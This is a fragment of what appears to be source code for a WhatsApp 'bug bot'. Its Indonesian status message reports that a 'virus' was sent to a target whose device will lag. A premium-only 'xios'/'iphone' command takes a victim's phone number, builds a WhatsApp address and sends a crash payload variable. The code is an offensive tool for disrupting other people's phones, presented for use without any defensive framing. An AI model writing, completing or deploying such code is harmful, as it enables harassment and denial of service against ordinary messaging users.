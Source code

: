 𝐓𝐀𝐑𝐆𝐄𝐓 : ${target}
𝐒𝐓𝐀𝐓𝐔𝐒 : 𝗦𝘂𝗰𝗰𝗲𝘀𝘀𝗳𝘂𝗹𝗹𝘆

    𝐍𝐎𝐓𝐄
> Virus Sudah Terkirim, Jika Target C2 Maka Target Mengalami Delay Maker`)
break

case 'xios': case 'iphone': case 'xip':
if (!isPremium) return reply(mess.only.premium)
if (!q) return reply(`Example: ${prefix + command} 263×××`)
target = q.replace(/[^0-9]/g,'')+"@s.whatsapp.net"
reply(bugres)
